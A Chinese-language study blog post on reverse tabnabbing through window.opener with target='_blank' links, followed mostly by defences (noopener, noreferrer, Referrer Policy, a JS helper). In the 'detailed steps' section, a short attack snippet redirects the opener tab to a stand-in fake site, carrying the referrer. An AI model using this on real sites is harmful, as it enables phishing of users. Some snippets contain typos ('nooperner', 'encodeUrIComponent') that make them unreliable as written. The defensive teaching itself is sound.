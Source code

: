 ```yaml
---
title: a标签opener的危险
date: 2019-06-03 20:54:31
tags: web安全
categories: 
- 前端
---
```



>本篇博客仅以个人学习记录使用

### 起源

我们知道，在iframe中提供了一个用于父子页面交互的现象，叫做window.parent,我们可以通过这个对象来从框架汇总的页面访问父级页面的window。
opener与parent一样，只不过是用于在新标签页打开的页面的。通过a标签打开的页面，可以直接使用window.opener来访问来源页面的window对象。

```
<a target="_blank">

```

### 同域和跨域

浏览器提供了完整的跨域保护，在域名相同时，parent对象和opener对象实际上就直接是上一级的window对象；而当域名不同时，则是经过包装的一个global对象，并且在这几个仅有的属性中，大部分也都是不允许访问的（访问会直接抛出DOMException）
在iframe中，提供了一个sandbox属性用于控制框架中的页面的权限，因此即使是同域，也可以控制iframe的安全性

### 利用

如果，你的网站上有一个链接，使用了target="_blank",那么一旦用户点击了这个链接并进入一个新的标签，新标签中的页面如果存在恶意代码，就可以将你的网站直接导航到一个虚假网站。此时，如果用户回到你的标签页，看到的就是被替换过的页面了。

### 详细步骤

1：在你的网站上存在一个链接

```
<a href=""https://an.evil.site"  target="_blank">进入一个邪恶的网站</a>
```

2:用户点击了这个链接，在新的标签页打开了这个网站。这个网站可以通过HTTP Header 中的Referer属性来判断用户的来源。并且，这个网站上包含着类似于这样的Js代码:

```
const url = encodeUrIComponent('{{header.refer}}');
window.opener.location.replace('https://a.fake.site/?' + url);
```

1.此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了xxxx

2.恶意网站xxx根据query string 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）

3.用户关闭xxx的标签页，回到原来的网站，已经回不去了

上部分攻击是在跨域的情况下的，在跨域情况下，opener对象和parent一样，是受限制的，仅提供非常有限的属性访问，大部分也都是不予许访问的（访问会直接抛出DOMException）

但是与parent不同的是，在跨域的情况下，opener仍然可以调用location.replace方法而parent不能
*** 如果是在同域的情况下，情况要比上面的严重的多

### 防御

```
<iframe>中用sandbox属性，而链接，则可以使用下面的方法:
1.Referrer Policy 和 noreferrer
上面的攻击中步骤中，用到了HTTP Header中的Referer属性，实际上可以在HTTP的响应头中增加Referrer Policy 头来保证来源隐私安全。

```

```
<a href="https://an.evil.site" target="_blank" rel="noreferrer">进入一个邪恶的网站</a>
但是要注意的是：即使限制了referer的传递，仍然不能阻止原标签被恶意跳转

```

2.noopener

为了安全，现代浏览器都支持在a标签的rel属性中指定rel="noopener",这样，在打开的新标签页中，将无法使用opener对象了，它设置为了null.

```
<a href="https://an.evil.site" target="_blank" rel="noopener">进入一个邪恶的网站</a>
```

3.JS

noopener属性看似解决了所有的问题，但是，浏览器还存在兼容性问题。。。
这时就需要加上这段原生JavaScript来帮忙了

```
function openUrl(url) {
    var newTab = window.open();
    newTab.opener = null;
    newTab.location = url;
}
```

### 推荐

首先在网站中的链接上 ，如果使用了target="_blank",就要带上rel="noopener",并且建议带上rel="noreferrer"。类似于这样：

```
<a href="https://an.evil.site" target="_blank" rel="nooperner noreferrer">进入一个邪恶的网站</a>
```

当然，在跳转到第三方网站的时候，为了SEO权重，还建议带上rel="nofollow",所以最终类似于这样:

```
<a href="https://an.evil.site" target="_blank" rel="noopener noreferrer nofollow"> 进入一个邪恶的网站</a>
```

### 性能

最后，再来说说性能问题。
如果网站使用了target="_blank",那么新打开的标签页的性能将会影响到当前页面。此时如果新打开的页面中执行了一个非常庞大的Js脚本，那么原始标签页也会受到影响，会出现卡顿的现象，而如果在连接中加入了noopener,则此时两个标签页将会互补干扰，使得原页面的性能不会受到新页面的影响
